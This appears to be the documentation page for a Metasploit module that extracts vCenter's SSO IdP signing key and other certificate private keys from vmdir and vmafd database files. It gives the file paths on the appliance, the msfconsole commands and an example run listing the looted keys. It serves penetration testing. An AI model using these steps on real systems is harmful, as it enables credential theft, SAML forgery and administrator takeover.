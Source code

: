 Grab certificates from the vCenter server vmdird or vmafd database files and adds them to loot.
This module will accept files from a live vCenter appliance or from a vCenter appliance backup
archive; either or both files can be supplied to the module depending on the situation. The module
will extract the vCenter SSO IdP signing credential from the vmdir database, which can be used to
create forged SAML assertions and access the SSO directory as an administrator. The vmafd service
contains the vCenter certificate store which from which the module will attempt to extract all vmafd
certificates that also have a corresponding private key. Portions of this module are based on
information published by Zach Hanley at Horizon3:

https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/

## Vulnerable Application
This module is tested against the vCenter appliance but will probably work against Windows instances.
It has been tested against files from vCenter appliance versions 6.5, 6.7, and 7.0. The module will
work with files retrieved from a live vCenter system as well as files extracted from an unencrypted
vCenter backup archive.

## Verification Steps
You must possess the vmdir and/or vmafd database files from vCenter in order to use this module. The
files must be local to the system invoking the module. Where possible, you should provide the
`VC_IP` option to tag relevant loot entries with the IPv4 address of the originating system. If no
value is provided for `VC_IP` the module defaults to assigning the loopback IP `127.0.0.1`.

1. Acquire the vmdir and/or vmafd database files from vCenter (see below)
2. Start msfconsole
3. Do: `use auxiliary/admin/vmware/vcenter_offline_mdb_extract`
4. Do: `set vmdir_mdb <path to data.mdb>` if you are extracting from the vmdir database
5. Do: `set vmafd_db <path to afd.db>` if you are extracting from the vmafd database
6. Do: `set vc_ip <vCenter IPv4>` to attach the target vCenter IPv4 address to loot entries
7. Do: `dump`

## Options
**VMDIR_MDB**

Path to the vmdird MDB database file on the local system. Example: `/tmp/data.mdb`

**VMAFD_DB**

Path to the vmafd DB file on the local system. Example: `/tmp/afd.db`

**VC_IP**

Optional parameter to set the IPv4 address associated with loot entries made by the module.

## Scenarios

### Acquire Database Files
This module targets the internal databases of vCenter vmdir (OpenLDAP Memory-Mapped Database) and
vmafd (SQLite3). On a live vCenter appliance, these files can be downloaded with root access from
the following locations:

`vmdir: /storage/db/vmware-vmdir/data.mdb`
`vmafd: /storage/db/vmware-vmafd/afd.db`
    
If you are extracting from a backup file, target files are available in the following archives:

`vmdir: lotus_backup.tar.gz`
`vmafd: config_files.tar.gz`

### Running the Module
Example run against database files extracted from vCenter appliance version 7.0 Update 3d:

```
msf > use auxiliary/admin/vmware/vcenter_offline_mdb_extract
msf auxiliary(admin/vmware/vcenter_offline_mdb_extract) > set vmdir_mdb /tmp/data.mdb
vmdir_mdb => /tmp/data.mdb
msf auxiliary(admin/vmware/vcenter_offline_mdb_extract) > set vmafd_db /tmp/afd.db
vmafd_db => /tmp/afd.db
msf auxiliary(admin/vmware/vcenter_offline_mdb_extract) > set vc_ip 192.168.100.70
vc_ip => 192.168.100.70
msf auxiliary(admin/vmware/vcenter_offline_mdb_extract) > dump

[*] Extracting vmwSTSTenantCredential from /tmp/data.mdb ...
[+] SSO_STS_IDP key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_idp_571080.key
[+] SSO_STS_IDP cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_idp_564729.pem
[+] VMCA_ROOT cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_vmca_721819.pem
[*] Extracting vSphere platform certificates from /tmp/afd.db ...
[+] __MACHINE_CERT key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70___MACHINE_CERT_869237.key
[+] __MACHINE_CERT cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70___MACHINE_CERT_240839.pem
[+] DATA-ENCIPHERMENT key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_DATAENCIPHERMEN_350586.key
[+] DATA-ENCIPHERMENT cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_DATAENCIPHERMEN_106169.pem
[+] HVC key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_HVC_825963.key
[+] HVC cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_HVC_399928.pem
[+] MACHINE key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_MACHINE_995574.key
[+] MACHINE cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_MACHINE_156797.pem
[+] SMS_SELF_SIGNED key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_SMS_SELF_SIGNED_169524.key
[+] SMS_SELF_SIGNED cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_SMS_SELF_SIGNED_230704.pem
[+] VPXD key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VPXD_370336.key
[+] VPXD cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VPXD_300599.pem
[+] VPXD-EXTENSION key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VPXDEXTENSION_571196.key
[+] VPXD-EXTENSION cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VPXDEXTENSION_088742.pem
[+] VSPHERE-WEBCLIENT key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VSPHEREWEBCLIEN_060718.key
[+] VSPHERE-WEBCLIENT cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VSPHEREWEBCLIEN_280013.pem
[+] WCP key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_WCP_057402.key
[+] WCP cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_WCP_909204.pem
[*] Auxiliary module execution completed
msf auxiliary(admin/vmware/vcenter_offline_mdb_extract) > 
```
